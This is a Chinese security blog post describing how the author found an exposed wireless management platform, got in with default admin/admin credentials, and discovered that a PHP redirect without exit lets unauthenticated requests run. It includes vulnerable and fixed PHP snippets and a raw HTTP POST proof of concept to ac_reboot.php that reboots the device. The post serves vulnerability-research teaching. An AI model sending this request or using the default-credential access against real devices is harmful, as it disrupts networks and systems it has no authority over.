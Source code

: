#  cnvd通用型漏洞挖掘思路-从逻辑漏洞到拒绝服务漏洞   
 Z2O安全攻防   2024-12-26 12:26  
  
点击「蓝色」字体关注我们！  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1Sz8ogA9E1drUmKUEQIHd194b10bibeCFVjPcd5IAZAhGDUkmibP2ebrP2Michdw5oNNJhWR2YcNMWq/640?wx_fmt=svg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1Sz8ogA9E1drkc6caFLicR1qyVPXMq3fhgKEkJxbgBicdzZialrabiaVVcD40T64iaB1z8qodahNib7s3Q/640?wx_fmt=svg&from=appmsg "")  
  
  
  
用鹰图语法找了波网络设备的相关词汇  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVPAYAtzvkicy6WPTQNaezia8RQayxW0txudzltGYPbrwah1oKb7KKib5lQ/640?wx_fmt=png&from=appmsg "")  
  
然后找到了个智能无线管理平台  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVUfdAX6PwMT3Tm7zshuLHicY4iarndfe9vxcgxC7btPkFOeib4icaysnicoQ/640?wx_fmt=jpeg&from=appmsg "")  
  
通过祖传弱口令admin admin进入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVIXMQttB13uAVv86NrMfFCqmeRpy5Q9aFDJGoGlUicyJxbjLwQCTkK6A/640?wx_fmt=jpeg&from=appmsg "")  
  
之后就是测试相应功能点,最终没有找到有SQL注入的参数和RCE的地方  
  
不过这里确定归属是来到系统管理  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVolATEr1ud7ONtsjUVL5GicibfsuX88ubLAa8Tx6boWnMkjgpowicWeydg/640?wx_fmt=jpeg&from=appmsg "")  
  
是这家公司开发的  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVNoLPLFia9QEsMdTQZgbaV8s1LjSv8SxJWrfH2xV2kGFHeGKoYx8GMaw/640?wx_fmt=jpeg&from=appmsg "")  
  
对证书再见吧,不够5000万  
  
在无限重复黑盒测试抓包测功能点的过程中,来到功能池  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVwsic6mKt5owpsVLNDl8v4VyavKFvRqgjkdIpfsjx29YkgzW1e8xia7NQ/640?wx_fmt=jpeg&from=appmsg "")  
  
随便调节一下,点击应用,Burp进行抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVd7zyEzJuP2qlEEOgncpbVSHOoRHIZaJtOSJsOubJ5wd64Ch1xeKzKw/640?wx_fmt=jpeg&from=appmsg "")  
  
该逻辑漏洞在于我删除Cookie后,如上图是有Cookie时应用后正常success表示应用成功  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVkF8HBBZ1AUQyp2fglebn5JLzzYmFjB5gC8KWXsJ9ribpPrib3corEdNg/640?wx_fmt=jpeg&from=appmsg "")  
  
删除Cookie后,发现正常执行相应功能并回显success(虽然代码鉴权到了,并跳转index.php用户认证处,但没有阻止代码继续往下跑)  
  
造成这个漏洞成因可以模拟出相应白盒代码:  
```
<?php
if (!isset($_COOKIE['PHPSESSID'])) {
    header("Location: index.php");
}

// 后续的代码继续执行
echo "Welcome to the success page!"; 
// 虽然跳转到index.php,但是echo也会继续执行
?>
```  
  
修复代码如下:  
```
<?php
if (!isset($_COOKIE['PHPSESSID'])) {
    header("Location: index.php");
    exit;  //增加exit修复继续执行
}

// 后续的代码继续执行
echo "Welcome to the success page!"; 
// 虽然跳转到index.php,但是echo也会继续执行
?>
```  
  
利用该逻辑漏洞,找到个设备重启功能和恢复出厂商功能,从而变成影响很大的前台拒绝服务漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVlplUPCTyBMiaS6atfxu5CkWZ9YGD6Qef4ONiaiaHzmmCxyhUD97vmibTHw/640?wx_fmt=jpeg&from=appmsg "")  
  
拒绝服务POC如下:  
```
POST /ac_reboot.php?action=submit HTTP/1.1
Host: ***********
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27648818302819120642279485210
Content-Length: 62
Origin: http://***************
Connection: close
Referer: http://***********:**/ac_reboot.php
Upgrade-Insecure-Requests: 1

-----------------------------27648818302819120642279485210--
```  
  
总结:  
  
挖漏洞要细心,并思考漏洞的成因  
  
  
建立了一个  
src专项圈子，内容包含**src漏洞知识库**、**src挖掘技巧**、**src视频教程**等，一起学习赚赏金技巧，以及专属微信群一起挖洞  
  
圈子专注于更新src相关：  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、分享src优质视频课程
3、分享src挖掘技巧tips
4、小群一起挖洞
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaRqDOYRFjU73rIsVy2ISg41LkR0ezBlmjJY4Lwgg8mr1A5efwqe0yGE9KTQwLPJTe9zyv3wgYnhA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOXg868PqXyjsACp9LhuEeyfB2kTZVOt5Pz48txg7ueRUvDdeefTNKdg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8P1KUHOKuZDDDv3NsbJDuSicLzBbwVDCPFgbmiaJ4ibf4LRgafQDdYodOgakdpbU1H6XfFQCL81VTudGBv2WniaDA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8P1KUHOKuZrY2H5J445ZKSwk8PKKN5I3DNFdtPMB7Z44ibQI2yMgiazCvjyib6YnRJPhzVg2KqfPM80VdcGT9RFA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaRqDOYRFjU73rIsVy2ISg4Bd1oBmTkA5xlNwZM5fLghYeibMBttWrf57h8sU7xDyTe5udCNicuHo8w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuYrUoo5XZpxN9Inq87ic71D6aUeMdaWrKXgYYia2On8nMA7bqWDySa8odAq1a0kkp3WFgf0Zp0Eut0A/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaRqDOYRFjU73rIsVy2ISg4KKlic4yiafWTpLdejicQe3MllEQc24ypeI3anaK7IjJDVyq1WVQN2yKBA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
图片  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOHgjJxnq1ibibJgVUx3LwCjZj62vygx8w6rxia1icmIWiax2YlP6S6LmlmlQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOApVm8H605qOibxia5DqPHfbWD6lmcweDjGv4DLl45waD068ugw2Iv2vg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuY813zmiaXibeTuHFXd8WtJAOwldaSATYOh1WQpk1qz15rLxehOAn4aK7tdbSyNEuHDZpIISCtl6Q8w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaRqDOYRFjU73rIsVy2ISg4jFsKRMMNDKbsAZhscCiagnyJScMVmFUqMtae5omlLRdu095mywWszjQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
图片![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuaRqDOYRFjU73rIsVy2ISg4uGJ2SA5BhZ3UyibZvVmcP3sozQEOfVr0jftWpC3YkpDiaAicS1ib3EgXHA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mia12sBTzp8qzt2BPnmicvsIDEzyo68NUVWsmpiarpVlibiciaibKMYEQ1Kne9bdOStSDAo90BA7cIgyQ6RhOUJso1V4g/640?wx_fmt=png&from=appmsg "分隔线")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/UsichrXlnR9L0nuGUVpuV1Sz8ogA9E1drp4zR93BC1TbCSs4pwMDGjdRbOmKxEPgmj6KFxBO5cUfiaspmibGv2kzf4KiamPUcgQq/640?wx_fmt=svg&from=appmsg "")  
  
点击【在看】你最好看~  
  
